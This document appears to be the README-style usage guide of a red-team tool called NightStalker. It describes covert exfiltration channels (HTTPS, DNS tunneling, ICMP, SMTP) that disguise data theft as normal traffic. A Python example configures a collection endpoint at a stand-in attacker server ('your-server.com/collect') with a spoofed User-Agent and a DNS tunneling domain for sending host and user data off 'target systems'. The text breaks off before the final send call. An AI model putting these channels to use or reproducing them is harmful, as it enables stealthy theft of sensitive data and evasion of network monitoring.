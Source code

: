 # NightStalker Exfiltration Guide

## Overview
NightStalker provides multiple covert channels for data exfiltration, allowing you to stealthily transfer reconnaissance data and other sensitive information from target systems.

## Available Channels

### 1. **HTTPS Exfiltration**
- **Best for**: Large data, reliable delivery
- **Method**: HTTP POST requests with custom headers
- **Stealth**: Appears as normal web traffic
- **Payload size**: Up to 4KB per chunk

### 2. **DNS Tunneling**
- **Best for**: Bypassing firewalls, stealth
- **Method**: Encoded data in DNS queries
- **Stealth**: Looks like normal DNS traffic
- **Payload size**: Up to 255 bytes per query

### 3. **ICMP Tunneling**
- **Best for**: Network-level stealth
- **Method**: Data in ICMP echo requests
- **Stealth**: Appears as ping traffic
- **Payload size**: Up to 64 bytes per packet

### 4. **SMTP Exfiltration**
- **Best for**: Email-based exfiltration
- **Method**: Data in email attachments or body
- **Stealth**: Appears as normal email
- **Payload size**: Up to 8KB per email

## Usage Methods

### Method 1: Direct Python API

```python
from nightstalker.redteam.exfiltration import CovertChannels

# Initialize exfiltration
exfil = CovertChannels()

# Prepare data
data = {"hostname": "target", "user": "admin", "data": "sensitive_info"}
data_bytes = json.dumps(data).encode('utf-8')

# Configure channels
channel_configs = {
    'https': {
        'target_url': 'https://your-server.com/collect',
        'headers': {'User-Agent': 'Mozilla/5.0...'}
    },
    'dns': {
        'dns_server': '8.8.8.8',
        'domain': 'your-domain.com'
    }
}

# Exfiltrate data
```